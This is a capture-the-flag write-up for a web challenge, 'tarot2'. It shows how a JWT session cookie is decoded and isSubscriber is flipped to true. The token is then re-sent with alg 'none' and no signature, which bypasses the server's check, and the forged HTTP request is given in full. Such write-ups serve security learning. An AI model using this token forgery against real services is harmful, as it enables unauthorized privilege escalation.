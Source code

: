 By the looks of it, we want the respose to output `message` not a `1` or `0`


^ Else
intercept /checktoken in burp, and we can see that we are given a JWT

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Set-Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1ODd9.FeOzxBet7HJ3ry34my5cDjMnTY2zoRVjPlWAyiAHLS0; Path=/
Content-Length: 13
ETag: W/"d-7GJcIGGUJGnOf9xJz6VzjWdnGEo"
Date: Sat, 04 Jun 2022 19:17:57 GMT
Connection: close

{"message":0}
```
We get message = 0, and we can sense some direction.

We notice that  according to the format of JWT's the token only consists of `header.payload.x` Where the `x` represents the signature. 
[For more info about jwt](https://jwt.io/introduction)

Base64 decode the header and payload
```bash
┌──(kali㉿kali)-[~/…/bcactf3/web/tarot2/c-jwt-cracker]
└─$ echo eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0 | base64 -d                                                   
{"alg":"none","typ":"JWT"}base64: invalid input
                                                                                                                                       
┌──(kali㉿kali)-[~/…/bcactf3/web/tarot2/c-jwt-cracker]
└─$ echo eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1NzR9 | base64 -d
{"isSubscriber":false,"iat":1654300574}
```
We need to change `isSubscriber` to `true`

We can just use [JWT.io](jwt.io) 

jwt uses "`base64UrlEncode`", so remember to strip `=` from the token, if you dont use jwt.io and `base64 -d` instead or burp suite.

Append the cookie as an header to a request (/checktoken)
```http
GET /checktoken HTTP/1.1
Host: web.bcactf.com:49201
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Cookie: token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpc1N1YnNjcmliZXIiOnRydWUsImlhdCI6MTY1NDMwMDU3NH0.
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.bcactf.com:49201/card.html
If-None-Match: W/"d-R2eoxnyopImzswz1XDToC/GK5Ec"

```
